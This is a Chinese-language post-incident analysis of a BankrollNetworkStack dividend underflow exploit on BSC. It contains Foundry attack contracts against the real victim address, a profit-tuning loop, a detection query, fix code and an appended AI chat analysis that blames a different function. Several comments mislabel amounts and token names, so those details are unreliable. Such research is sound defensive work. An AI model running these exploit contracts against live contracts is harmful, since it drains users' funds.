

- https://app.blocksec.com/explorer/tx/bsc/0x0f5740cddedefb6dd34596b5099647a72069f90b61becfb9b42484fe5a7f87ee
- 漏洞合约： https://bscscan.com/address/0xef6676536a1d98942d149f52708770e11db47bce#code

1. 先看哪里 损失钱了   
2. 再根据受害合约地址找到相关调用    
  
3.  根据相关调用 写POC   
4. 漏洞分析 

## 漏洞分析
> 整数下溢 + 类型转换 


- `withdraws`函数   
- 在`myDividends()`函数中，分红计算基于以下公式： 
```sol
function dividendsOf(address _customerAddress) public view returns (uint256) { 
    return (uint256) ((int256) (profitPerShare_ * tokenBalanceLedger_[_customerAddress]) - payoutsTo_[_customerAddress]) / magnitude; 
}
```
当用户出售(Sell)所有代币后： 
1. `tokenBalanceLedger_[_customerAddress]` 变为 0 
2. 但 `payoutsTo_[_customerAddress]` 仍保持为正值（之前的累计值） 这导致计算： (int256)(0) - (正数) = 负值 
3. 当转换为 uint256 时，会触发整数下溢，产生巨大的正数分红值。  

- Fix
```sol
function dividendsOf(address _customerAddress) public view returns (uint256) { 
   if (tokenBalanceLedger_[_customerAddress] == 0) { return 0; } 
   return (uint256) ((int256) (profitPerShare_ * tokenBalanceLedger_[_customerAddress]) - payoutsTo_[_customerAddress]) / magnitude; 
   }
```
## POC

### 获利测试文件
  
```sol
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "forge-std/console.sol";

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function transfer(address to, uint256 amount) external returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);
    function approve(address spender, uint256 amount) external returns (bool);
}

interface IBankrollNetworkStack {
    function donatePool(uint amount) external returns (uint256);
    function buyFor(address _customerAddress, uint buy_amount) external returns (uint256);
    function withdraw() external;
    function sell(uint256 _amountOfTokens) external;
    function myTokens() external view returns (uint256);
    function myDividends() external view returns (uint256);
}

contract ProfitThresholdTest is Test {
    address private constant VICTIM_CONTRACT = 0xeF6676536a1d98942d149f52708770e11Db47BcE;
    // BTCB代币地址 (Binance-Peg BTCB Token)
    address private constant BTCB = 0x2170Ed0880ac9A755fd29B2688956BD959F933F8;
    // BTCB鲸鱼地址 (Binance 8)
    address private constant BTCB_WHALE = 0xF977814e90dA44bFA03b6295A0616a897441aceC;
    
    // 测试的最小和最大金额范围（BTCB）
    uint256 public constant MIN_TEST_AMOUNT = 10000 * 1e18;   // 0.1 BTCB
    uint256 public constant MAX_TEST_AMOUNT = 50000 * 1e18; // 1 BTCB
    uint256 public constant STEP = 10000 * 1e18; // 0.1 BTCB步长

    function setUp() public {
        // 创建BSC网络的fork
        vm.createSelectFork("https://virtual.binance.eu.rpc.tenderly.co/d6bf3f88-f9d8-493e-b759-7e92f6587bc9", 60376707);
    }
    
    // 测试不同投入金额下的获利情况
    function testFindProfitThreshold() public {
        console.log(unicode"开始测试不同投入金额下的获利情况");
        console.log(unicode"----------------------------------");
        
        uint256 maxProfit = 0;
        uint256 bestAmount = 0;
        uint256 bestDonateRatio = 0;
        uint256 breakEvenPoint = 0;
        
        // 保存初始区块号用于回滚
        uint256 initialBlock = block.number;

        // 从最小金额开始测试，每次增加STEP
        for (uint256 amount = MIN_TEST_AMOUNT; amount <= MAX_TEST_AMOUNT; amount += STEP) {
            for (uint256 dofit = 965; dofit <= 975; dofit += 5) {
                // 回滚到初始状态
                vm.rollFork(initialBlock);
                
                // 记录受害者合约初始余额
                uint256 victimBalanceBefore = IERC20(BTCB).balanceOf(VICTIM_CONTRACT);
                
                // 转账初始资金到测试合约
                vm.startPrank(BTCB_WHALE);
                IERC20(BTCB).transfer(address(this), amount);
                vm.stopPrank();
                
                // 执行攻击
                _executeAttack(amount, dofit, 1000 - dofit - 10);
                
                // 记录受害者合约最终余额
                uint256 victimBalanceAfter = IERC20(BTCB).balanceOf(VICTIM_CONTRACT);
                
                // 计算获利（受害者合约损失）
                uint256 profit = victimBalanceBefore > victimBalanceAfter ? 
                                victimBalanceBefore - victimBalanceAfter : 0;
                
                // 计算并记录结果
                console.log(unicode"投入金额: %s BTCB, 捐赠比例: %s%%,  获利: %s BTCB (1e15)", 
                            amount / 1e18, dofit / 10, profit / 1e15);
                
                // 更新最大获利和最佳参数
                if (profit > maxProfit) {
                    maxProfit = profit;
                    bestAmount = amount;
                    bestDonateRatio = dofit;
                }
                
                // 找到盈亏平衡点（首次获利点）
                if (breakEvenPoint == 0 && profit > 0) {
                    breakEvenPoint = amount;
                    console.log(unicode"盈亏平衡点: %s BTCB (捐赠比例: %s%%)", breakEvenPoint / 1e18, dofit / 10);
                }
            }
        }
        
        console.log(unicode"----------------------------------");
        console.log(unicode"最大获利: %s BTCB (1e15)", maxProfit / 1e15);
        console.log(unicode"最佳投入金额: %s BTCB", bestAmount / 1e18);
        console.log(unicode"最佳捐款比例: %s%%", bestDonateRatio / 10);
        console.log(unicode"盈亏平衡点: %s BTCB", breakEvenPoint / 1e18);
    }
    
    // 执行攻击
    function _executeAttack(uint256 initialInvestment, uint256 donatefit, uint256 buyfit) internal {
        // 1. 授权受害者合约使用BTCB
        IERC20(BTCB).approve(VICTIM_CONTRACT, type(uint256).max);
        
        // 2. 捐赠指定比例的资金
        uint256 donateAmount = initialInvestment * donatefit / 1000;
        IBankrollNetworkStack(VICTIM_CONTRACT).donatePool(donateAmount);
        
        // 3. 购买指定比例的代币
        uint256 buyAmount = initialInvestment * buyfit / 1000;
        IBankrollNetworkStack(VICTIM_CONTRACT).buyFor(address(this), buyAmount);
        
        // 4. 获取并出售代币
        uint256 myTokens = IBankrollNetworkStack(VICTIM_CONTRACT).myTokens();
        IBankrollNetworkStack(VICTIM_CONTRACT).sell(myTokens);
        
        // 5. 计算并补足微小差额
        uint256 dividends = IBankrollNetworkStack(VICTIM_CONTRACT).myDividends();
        uint256 victimBalance = IERC20(BTCB).balanceOf(VICTIM_CONTRACT);
        uint256 trax = dividends > victimBalance ? dividends - victimBalance : 0;
        
        if (trax > 0) {
            IERC20(BTCB).transfer(VICTIM_CONTRACT, trax);
        }
        
        // 6. 提取分红
        IBankrollNetworkStack(VICTIM_CONTRACT).withdraw();
    }
}
```

### 无闪电贷版本
  
```so
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "forge-std/console.sol";

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function transfer(address to, uint256 amount) external returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);
    function approve(address spender, uint256 amount) external returns (bool);
}

interface IBankrollNetworkStack {
    function donatePool(uint amount) external returns (uint256);
    function buyFor(address _customerAddress, uint buy_amount) external returns (uint256);
    function withdraw() external;
    function sell(uint256 _amountOfTokens) external;
    function myTokens() external view returns (uint256);
    function transfer(address to, uint256 amount) external returns (bool);
    function myDividends() external view returns (uint256);
}

contract AttackerContract is Test {
    // 受害者合约地址
    address private constant VICTIM_CONTRACT = 0xeF6676536a1d98942d149f52708770e11Db47BcE;
    // WETH代币地址
    address private constant TOKEN = 0x2170Ed0880ac9A755fd29B2688956BD959F933F8;
    address public ATTACKER_EOA;

    constructor(address _attackerEOA) {
        ATTACKER_EOA = _attackerEOA;
    }

    // 接收ETH函数 
    receive() external payable {}

    // 攻击函数 - 直接执行攻击逻辑
    function attack() external {
        require(msg.sender == ATTACKER_EOA, "Only attacker EOA can call this function");
        _executeAttack();
    }

    // 实际攻击执行函数
    function _executeAttack() internal {
        // 打印初始Token余额
        uint256 contractBalance = IERC20(TOKEN).balanceOf(address(this));
        console.log(unicode"合约初始Token余额:", contractBalance / 1e18);

        // 1. 先授权受害合约可以使用Token
        IERC20(TOKEN).approve(VICTIM_CONTRACT, type(uint256).max);

        // 2. 调用donatePool函数,存入资金到分红池
        uint256 donateAmount = 25777277604446591821939; // 存入1万
        IBankrollNetworkStack(VICTIM_CONTRACT).donatePool(donateAmount);
        // 捐赠后，分红池增加：25,777.27 Token
        // 此时合约总 Token 余额：2.644e22 (26,440 Token)
        
        // 3. 使用buyFor购买代币
        uint256 buyAmount = 667805119286181135283; // 购买5000 worth的代币
        IBankrollNetworkStack(VICTIM_CONTRACT).buyFor(address(this), buyAmount);
        // 攻击者获得合约代币：601.024607357563021755 (约 601.02)
        // tokenBalanceLedger_[attacker] = 601.024607357563021755
        // payoutsTo_[attacker] = (int256)(profitPerShare_ * 601.024607357563021755)

        // 4. 获取当前合约持有的代币数量
        uint256 myTokens = IBankrollNetworkStack(VICTIM_CONTRACT).myTokens();
        console.log(unicode"获得的代币数量:", myTokens);
        
        // 5. 出售所有代币获取收益
        IBankrollNetworkStack(VICTIM_CONTRACT).sell(myTokens);
        // 出售后代币余额变为 0：
        // tokenBalanceLedger_[attacker] = 0
        // 但 payoutsTo_[attacker]保持不变（正值）


        uint256 trax = IBankrollNetworkStack(VICTIM_CONTRACT).myDividends() - IERC20(TOKEN).balanceOf(VICTIM_CONTRACT);
        // 这里 很重要 ，我们winthdraw 是 会触发 myDividends( ) 计算分红的, 但是有可能里面已经没有那么多给我们分红了
        // 所以我们要把补上 ,可以试试把这个删掉 其实会报错
        IERC20(TOKEN).transfer(VICTIM_CONTRACT,trax);
        // 
        // 6. 提取所有分红收益
        IBankrollNetworkStack(VICTIM_CONTRACT).withdraw();
        
        // 7. 将所有Token转移给攻击者EOA
        uint256 finalBalance = IERC20(TOKEN).balanceOf(address(this));
        if(finalBalance > 0) {
            IERC20(TOKEN).transfer(ATTACKER_EOA, finalBalance);
        }

        console.log(unicode"攻击执行完成, 资金已转移给攻击者EOA");
        console.log(unicode"最终Token余额:", finalBalance / 1e18);
    }
}

contract BankrollNetworkTest is Test {
    address public ATTACKER_EOA;
    address private constant VICTIM_CONTRACT = 0xeF6676536a1d98942d149f52708770e11Db47BcE;
    address private constant TOKEN = 0x2170Ed0880ac9A755fd29B2688956BD959F933F8;
    // 使用BSC上某个持有大量WETH的地址作为资金来源
    address private constant TOKEN_WHALE = 0xF977814e90dA44bFA03b6295A0616a897441aceC;

    AttackerContract private attacker;

    function setUp() public {
        // 创建BSC网络的fork,使用攻击发生的区块
        vm.createSelectFork("https://virtual.binance.eu.rpc.tenderly.co/d6bf3f88-f9d8-493e-b759-7e92f6587bc9", 60376707);

        // 设置攻击者EOA
        ATTACKER_EOA = makeAddr("ATTACKER_EOA");
        
        // 部署攻击合约
        vm.startPrank(ATTACKER_EOA);
        attacker = new AttackerContract(ATTACKER_EOA);
        vm.stopPrank();

        // 给攻击合约一些初始BNB用于支付gas
        vm.deal(address(attacker), 10 ether);

        // 从TOKEN大户转入一些代币作为攻击初始资金
        vm.startPrank(TOKEN_WHALE);
        IERC20(TOKEN).transfer(address(attacker), 26712204771447245411336); // 转入2万Token
        vm.stopPrank();
    }

    function testExploit() public {
        // 记录攻击前余额
        uint256 attackerBalanceBefore = IERC20(TOKEN).balanceOf(ATTACKER_EOA);
        uint256 contractBalanceBefore = IERC20(TOKEN).balanceOf(VICTIM_CONTRACT);

        console.log(unicode"攻击前状态:");
        console.log(unicode"攻击者EOA Token余额:", attackerBalanceBefore / 1e18);
        console.log(unicode"受害者合约Token余额:", contractBalanceBefore / 1e18);

        // 执行攻击
        vm.startPrank(ATTACKER_EOA);
        attacker.attack();
        vm.stopPrank();

        // 记录攻击后余额
        uint256 attackerBalanceAfter = IERC20(TOKEN).balanceOf(ATTACKER_EOA);
        uint256 contractBalanceAfter = IERC20(TOKEN).balanceOf(VICTIM_CONTRACT);

        console.log(unicode"攻击后状态:");
        console.log(unicode"攻击者EOA Token余额:", attackerBalanceAfter / 1e18);
        console.log(unicode"受害者合约Token余额:", contractBalanceAfter / 1e18);

        // 计算总获利（攻击者EOA余额 - 初始投入）
        uint256 initialInvestment = 26712204771447245411336;
        uint256 profit = attackerBalanceAfter - initialInvestment; // 减去初始投入的2万Token
        
        console.log(unicode"总投入(Token):", initialInvestment / 1e18);
        console.log(unicode"总获利(Token):", profit / 1e18);
        
        console.log(unicode"攻击测试完成!");
    }
}
```


## Glider

```python
from glider import *  
  
def query():  
    """  
    查找 dividendsOf 函数中的整数下溢漏洞  
    模式: (uint256)((int256)(expression) - variable)  
    """  
      
    # 1. 查找名为 dividendsOf 的函数  
    functions = (  
        Functions()  
        .with_name("dividendsOf")  
        .exec(1000)  
    )  
      
    results = []  
      
    for func in functions:  
        source = func.source_code()  
          
        # 2. 检查是否包含危险的类型转换模式  
        if 'uint256' in source and 'int256' in source and '-' in source:  
            # 3. 获取函数的所有指令  
            instructions = func.instructions().exec()  
              
            for ins in instructions:  
                ins_source = ins.source_code()  
                  
                # 4. 检测 return 语句中的类型转换  
                if 'return' in ins_source and 'uint256' in ins_source and 'int256' in ins_source:  
                    # 5. 检查是否存在减法操作  
                    if '-' in ins_source:  
                        results.append(func)  
                        break  
      
    return results
```


Logs:
  初始资金设置完成:
  攻击合约BTCB余额: 9980
  攻击前状态:
  攻击者EOA BTCB余额: 0
  受害者合约BTCB余额: 0
  合约初始BTCB余额: 9980
  获得的代币数量: 600300000000000000000
  攻击执行完成, 资金已转移给攻击者EOA
  最终BTCB余额: 8019
  攻击后状态:
  攻击者EOA BTCB余额: 8019
  受害者合约BTCB余额: 1960
  总投入(BTCB): 9980
  总获利(BTCB): 0
  攻击测试完成!


Logs:
  攻击前状态:
  攻击者EOA Token余额: 0
  受害者合约Token余额: 2
  合约初始Token余额: 26712
  获得的代币数量: 601
  攻击执行完成, 资金已转移给攻击者EOA
  最终Token余额: 26714
  攻击后状态:
  攻击者EOA Token余额: 26714
  受害者合约Token余额: 0
  总投入(Token): 26712
  总获利(Token): 2
  攻击测试完成!


  
```chatReference::memory [{"id":"32e92935-9473-45c2-b56a-8e00eed88945","title":"智能合约安全审计相关文件"},{"id":"ff39cffe-950e-4229-91bc-63e46f805c82","title":"项目介绍：智能合约分析与漏洞复现平台"},{"id":"9a87362a-672c-40cd-b7de-af3366a603e2","title":"Blocksec审计项目技术栈和结构"},{"id":"936b1fd1-dfcc-483a-bd8b-f6dc73246c04","title":"Blocksec审计项目技术栈和结构"},{"id":"4f75ae8a-9c0e-48d2-8588-893126af4579","title":"DailyRoi安全事件分析项目信息"},{"id":"b6831810-8a43-47b8-9531-80b83d42a5ff","title":"XTRADESPRO安全事件分析项目信息"},{"id":"ad658fa2-717c-4489-bbdc-30af2f9224d7","title":"项目技术栈"},{"id":"e07047e6-d761-49c4-b61f-c2310f4e89d7","title":"项目配置：Foundry项目结构"},{"id":"068af880-2d4c-4835-b84c-fcb7f281fd80","title":"技术栈：Solidity + Foundry"},{"id":"83b7d8a1-72e0-4b57-8eb6-d11a33387786","title":"环境配置：Forge开发与调试环境"},{"id":"25709a80-2ef4-47f4-93da-51ec6a8c07d7","title":"EXP分析报告文档规范"},{"id":"23d55386-121f-45e9-a344-fe02bea5bca9","title":"项目工作区路径"},{"id":"0fa7faab-9997-41f2-9434-f017bcfe0cca","title":"EXP模板路径"},{"id":"00a52f53-ad09-48a6-b6cd-4a67ca8ed371","title":"调试映射文件作用"},{"id":"1123eb24-2102-4a7f-94a2-d60660335389","title":"Fork测试文件结构"},{"id":"ffc33c76-964b-4581-853c-1fecba604b21","title":"项目目录结构说明"},{"id":"a6ef6fed-317b-4eef-84bf-19aaf0bf8871","title":"运行环境配置"},{"id":"6c3b97cb-967d-414b-ad6c-ce8f7bb43fba","title":"ERC20授权修复实践"},{"id":"85676d68-6d85-413a-9546-ef41ba823001","title":"整数溢出防护"},{"id":"c3a96e11-972b-4636-9b61-667b9c226c50","title":"Web3安全分析偏好"}] ``` 我看到您提供了BankrollNetworkStack合约的完整代码。让我分析这个合约是否存在过度计提漏洞。 ```toolCall::read_file::call_6ac43276599a49b3b21a6556::INIT ``` 让我继续查看合约的剩余部分，特别是SafeMath库的完整实现： ```toolCall::read_file::call_9eb50f38fc874b2ba0bc5f8a::INIT ``` 现在我已经完整分析了BankrollNetworkStack合约，让我确认其中的过度计提漏洞： ## BankrollNetworkStack合约过度计提漏洞确认 ### 1. 漏洞位置 漏洞存在于[distribute()](file:///E%3A/web3/Blocksec/Audit/contract/%E5%8F%97%E5%AE%B3%E8%80%850xef6676536a1d98942d149f52708770e11db47bce.sol#L576-L596)函数中： ```solidity function distribute() private { if (now.safeSub(lastBalance_) > balanceInterval) { emit onBalance(totalTokenBalance(), now); lastBalance_ = now; } if (SafeMath.safeSub(now, lastPayout) > distributionInterval && tokenSupply_ > 0) { //A portion of the dividend is paid out according to the rate uint256 share = dividendBalance_.mul(payoutRate_).div(100).div(24 hours); //divide the profit by seconds in the day uint256 profit = share * now.safeSub(lastPayout); //share times the amount of time elapsed dividendBalance_ = dividendBalance_.safeSub(profit); // 漏洞点 //Apply divs profitPerShare_ = SafeMath.add(profitPerShare_, (profit * magnitude) / tokenSupply_); lastPayout = now; } } ``` ### 2. 关键问题 1. **自定义的safeSub函数**： ```solidity function safeSub(uint a, uint b) internal pure returns (uint) { if (b > a) { return 0; // 当b > a时返回0，而不是抛出异常 } else { return a - b; } } ``` 2. **问题场景**： - 当长时间没有交易时，`now.safeSub(lastPayout)`会变得很大 - 计算出的[profit](file:///E%3A/web3/Blocksec/Audit/Debug/0x1c0ff27555cf4f9e098f3dfc6060e8c93362829c72df12499576b4962b00a432/MathLib.sol#L4-L4)可能超过[dividendBalance_](file:///E%3A/web3/Blocksec/Audit/contract/%E5%8F%97%E5%AE%B3%E8%80%850xef6676536a1d98942d149f52708770e11db47bce.sol#L155-L155) - [dividendBalance_](file:///E%3A/web3/Blocksec/Audit/contract/%E5%8F%97%E5%AE%B3%E8%80%850xef6676536a1d98942d149f52708770e11db47bce.sol#L155-L155)被截断为0，但[profit](file:///E%3A/web3/Blocksec/Audit/Debug/0x1c0ff27555cf4f9e098f3dfc6060e8c93362829c72df12499576b4962b00a432/MathLib.sol#L4-L4)仍然按原值用于提高[profitPerShare_](file:///E%3A/web3/Blocksec/Audit/Debug/0x0563a626261d514b873e578fbf4dcd2e7921c35ad7fa4298a8688cf700911f1e/StorageSlot.sol#L17-L17) ### 3. 漏洞影响 这会导致[profitPerShare_](file:///E%3A/web3/Blocksec/Audit/Debug/0x0563a626261d514b873e578fbf4dcd2e7921c35ad7fa4298a8688cf700911f1e/StorageSlot.sol#L17-L17)被过度提高，使得用户可以提取超过合约实际拥有的分红资金。 ### 4. 修复建议 1. **修复safeSub函数**： ```solidity function safeSub(uint a, uint b) internal pure returns (uint) { require(b <= a, "SafeMath: subtraction overflow"); return a - b; } ``` 2. **在distribute函数中增加保护**： ```solidity function distribute() private { if (now.safeSub(lastBalance_) > balanceInterval) { emit onBalance(totalTokenBalance(), now); lastBalance_ = now; } if (SafeMath.safeSub(now, lastPayout) > distributionInterval && tokenSupply_ > 0) { //A portion of the dividend is paid out according to the rate uint256 share = dividendBalance_.mul(payoutRate_).div(100).div(24 hours); //divide the profit by seconds in the day uint256 profit = share * now.safeSub(lastPayout); // 确保profit不超过dividendBalance_ if (profit > dividendBalance_) { profit = dividendBalance_; } //share times the amount of time elapsed dividendBalance_ = dividendBalance_.sub(profit); // 使用SafeMath.sub //Apply divs profitPerShare_ = SafeMath.add(profitPerShare_, (profit * magnitude) / tokenSupply_); lastPayout = now; } } ``` 这个合约确实存在过度计提漏洞，与您之前描述的问题一致。